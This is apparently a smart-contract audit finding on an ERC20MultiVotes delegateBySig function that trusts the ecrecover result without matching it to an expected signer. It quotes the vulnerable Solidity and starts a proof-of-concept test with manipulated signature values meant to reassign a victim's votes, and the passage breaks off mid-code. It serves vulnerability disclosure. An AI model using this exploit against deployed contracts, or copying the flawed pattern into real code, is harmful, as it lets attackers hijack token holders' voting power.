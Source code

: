If the user enters an invalid signature, it will not revert.

## Proof of Concept

`delegateBySig` doesn’t get delegator(singer) parameter from caller and use `ecrecover` return value as delegator address. But the `ecrecover` function may return a non-zero value even if the signature is invalid.

It's unsafe to use the return value of `ecrecover` for any purpose other than comparing it with a valid signer value. 

```solidity
function delegateBySig(
        address delegatee,
        uint256 nonce,
        uint256 expiry,
        uint8 v,
        bytes32 r,
        bytes32 s
    ) public {
        require(
            block.timestamp <= expiry,
            "ERC20MultiVotes: signature expired"
        );
@>      address signer = ecrecover(
            keccak256(
                abi.encodePacked(
                    "\x19\x01",
                    _domainSeparatorV4(),
                    keccak256(
                        abi.encode(
                            DELEGATION_TYPEHASH,
                            delegatee,
                            nonce,
                            expiry
                        )
                    )
                )
            ),
            v,
            r,
            s
        );
        require(nonce == _useNonce(signer), "ERC20MultiVotes: invalid nonce");
        require(signer != address(0));
@>      _delegate(signer, delegatee);
    }
```

This is PoC. Put it in the ERC20MultiVotes.t.sol file and you can run it.

```solidity
function testPoCDelegateBySig() public {
    uint256 mintAmount = 500;
    address oldDelegatee = address(0xcafe);
    address attacker = address(0x1337);
    uint256 beforeDelegateAmount = 100;

    uint8 v_manipulated = 27;
    bytes32 r_manipulated = 0xcd7131732b50aeddb0b4ed935238859e6cb8d0faae7f0c1f5756e34d8ceead30;
    bytes32 s_manipulated = 0x6edfe0697454a340b905f4d17a7d44cead88ed09267058270b088e2bcfcb96b7;
    // This manipulated signature is treated as belonging to this random victim.
    address manipulatedAddress_owner = ecrecover(
        keccak256(
            abi.encodePacked(
                "\x19\x01",
```